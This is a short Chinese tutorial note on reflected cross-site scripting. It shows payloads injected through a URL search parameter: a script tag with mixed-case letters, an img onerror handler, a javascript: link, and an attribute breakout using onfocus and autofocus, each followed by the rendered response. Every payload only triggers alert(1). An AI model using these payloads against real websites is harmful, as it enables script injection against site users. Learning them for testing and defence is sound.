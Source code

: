 # 反射型xss

> 日期: 2022/02/03

> 反射型xss(Reflected XSS)即 "非持久性跨站点脚本攻击" ，原理是将攻击脚本存放于链接中，用户访问恶意链接触发脚本。



## 一、渲染标签触发
__示例__

`https://xxx.com/videoList?title=游戏`

```html
搜索标题: <span>游戏</span>
<input name='title' value='游戏'>
```

### 1. 渲染script标签触发
- 修改请求参数 

```
?title=游戏<ScRiPt>alert(1)</ScRiPt>
```

- 响应结果

```html
搜索标题: <span>游戏<ScRiPt>alert(1)</ScRiPt></span>
<input name='title' value='游戏<ScRiPt>alert(1)</ScRiPt>'>
```

### 2. onerror事件触发
- 修改请求参数

```
?title=游戏<img src='#' onerror=alert(1)>
```

- 响应结果

```html
搜索标题: <span>游戏<img src='#' onerror=alert(1)></span>
<input name='title' value='游戏<img src='#' onerror=alert(1)>'>
```

### 3. 伪协议触发
- 修改请求参数

```
?title=游戏<a href='javascript:alert(1)'>提示管理员更新</a>
```

- 响应结果

```html
搜索标题: <span>游戏<a href='javascript:alert(1)'>提示管理员更新</a></span>
<input name='title' value='游戏<a href='javascript:alert(1)'>提示管理员更新</a>'>
```

## 二、输出点特殊字符被转义情况下，对input标签注入onfocus事件

__示例__

`https://xxx.com/videoList?title=游戏<Script>alert(1)</Script>`

```html
搜索标题: <span>游戏& lt;ScRiPt& gt;alert(1)& lt;/ScRiPt& gt;</span>
<input name='title' value='游戏<Script>alert(1)</Script>'>
```

- 修改请求参数

```
?title=游戏' onfocus='alert(1) autofocus
```

- 响应结果

```html
搜索标题: <span>游戏' onfocus='alert(1) autofocus</span>
<input name='title' value='游戏' onfocus='alert(1) autofocus'>
```

